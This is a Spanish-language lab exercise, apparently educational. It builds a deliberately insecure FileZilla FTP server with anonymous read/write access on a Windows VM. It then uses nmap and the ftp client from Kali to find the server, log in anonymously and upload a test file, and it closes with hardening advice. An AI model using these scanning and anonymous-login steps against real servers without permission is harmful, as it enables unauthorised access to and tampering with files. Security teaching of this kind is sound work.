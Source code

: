 # Práctica de Laboratorio: Enumeración y Explotación de FTP

**Objetivo:** Identificar y explotar una configuración insegura común en servidores FTP (File Transfer Protocol): el acceso anónimo.

**Máquinas y Servicios Requeridos:**
*   Una VM con Kali Linux (atacante).
*   Una VM con Windows 8.1 (víctima).
*   Un servidor FTP instalado en la víctima. **FileZilla Server** es una opción gratuita y fácil de instalar para este propósito.

---

## Parte 1: Configuración del Servidor FTP en Windows 8.1 (Víctima)

1.  **Descarga e Instala FileZilla Server:** Bájalo desde su web oficial e instálalo en tu VM de Windows 8.1 con las opciones por defecto.
2.  **Configura el Acceso Anónimo:**
    *   Abre la interfaz de administración de FileZilla Server.
    *   Ve a `Edit` > `Users`.
    *   En el panel "Users", haz clic en `Add` y crea un usuario llamado `anonymous`. No le asignes contraseña.
    *   En la página "Shared folders", añade una carpeta a la que este usuario pueda acceder (por ejemplo, crea una carpeta `C:\FTP_Share` en tu disco).
    *   Dale permisos de `Read` y `Write` a esa carpeta para el usuario `anonymous`.
3.  **Asegúrate de que el servidor está corriendo** y que el firewall de Windows permite las conexiones entrantes en el puerto 21.

---

## Parte 2: Descubrimiento y Enumeración desde Kali Linux

### Paso 1: Encontrar el Servidor FTP

Primero, verificamos qué máquinas en la red tienen el puerto 21 (el puerto estándar de FTP) abierto.

```bash
# Escanea la red en busca del puerto TCP 21
sudo nmap -p 21 [RANGO_DE_TU_RED_NAT_LAB]
```

Una vez que identifiques la IP de tu máquina Windows (`[IP_VICTIMA]`), puedes hacer un escaneo más profundo para obtener la versión del software del servidor FTP.

```bash
# Escaneo de versión y scripts por defecto en el puerto 21
sudo nmap -p 21 -sV -sC [IP_VICTIMA]
```

El script `-sC` de Nmap (`--script=default`) incluye una comprobación (`ftp-anon`) que te dirá inmediatamente si el login anónimo está habilitado. ¡Presta atención a la salida!

---

## Parte 3: Explotación del Acceso Anónimo

Si Nmap confirma que el acceso anónimo está permitido, podemos conectarnos y explorar el servidor.

### Paso 1: Conectarse con el cliente FTP

```bash
# Inicia una conexión FTP con la máquina víctima
ftp [IP_VICTIMA]
```

### Paso 2: Iniciar Sesión como Anónimo

El servidor te pedirá un nombre de usuario (`Name`).

1.  Escribe `anonymous` y presiona `Enter`.
2.  Luego te pedirá una contraseña (`Password`). Simplemente presiona `Enter` sin escribir nada.

Si la configuración es vulnerable, verás un mensaje de bienvenida (`230 Login successful`) y el prompt cambiará a `ftp>`. ¡Estás dentro!

### Paso 3: Interactuar con el Servidor FTP

Ahora puedes usar comandos estándar de FTP para explorar y transferir archivos.

```ftp
# Muestra los comandos disponibles
ftp> help

# Lista los archivos y directorios en el servidor remoto
ftp> ls

# Descarga un archivo del servidor a tu máquina Kali
ftp> get [nombre_del_archivo_remoto]

# Sube un archivo desde tu máquina Kali al servidor
ftp> put [nombre_del_archivo_local]
```

**Ejemplo práctico:**

1.  En tu máquina Kali, crea un archivo de prueba:
    ```bash
    echo "Archivo subido desde Kali" > exploit.txt
    ```
2.  Dentro de la sesión `ftp>`, súbelo:
    ```ftp
    ftp> put exploit.txt
    ```
3.  Verifica que se ha subido:
    ```ftp
    ftp> ls
    ```
4.  Sal de la sesión de FTP:
    ```ftp
    ftp> bye
    ```

---

## Conclusión

El acceso anónimo a un servidor FTP con permisos de escritura es una vulnerabilidad crítica. Permite a un atacante subir archivos maliciosos (como un webshell o un troyano) al sistema víctima, que luego podrían ser ejecutados a través de otra vulnerabilidad o por un usuario descuidado. Siempre se debe deshabilitar el acceso anónimo a menos que sea estrictamente necesario y, en ese caso, limitar los permisos a solo lectura.